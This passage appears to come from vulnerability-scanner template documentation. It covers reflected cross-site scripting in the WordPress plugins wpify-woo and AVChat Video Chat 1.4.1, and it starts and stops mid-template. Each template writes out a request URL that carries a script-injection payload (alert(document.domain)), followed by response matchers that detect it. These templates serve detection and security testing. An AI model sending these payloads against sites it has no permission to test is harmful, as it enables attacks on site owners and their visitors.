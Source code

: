 - Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wpify-woo/deps/dragonbe/vies/examples/async_processing/queue.php/">\<script>alert(document.domain)\</script>

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(document.domain)\</script>
  2. Add a new VAT ID to the queue
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress AVChat Video Chat 1.4.1 - Cross-Site Scripting

## Description

- WordPress AVChat Video Chat 1.4.1 is vulnerable to reflected cross-site scripting via index_popup.php and multiple parameters.

- severity - medium
- tags - xss,,wp,wpscan,wordpress,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/avchat-3/index_popup.php?movie_param=%3C/script%3E%3Cscript%3Ealert(document.domain)%3C/script%3E&FB_appId=FB_appId%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E&

### Matchers

**Type - word**

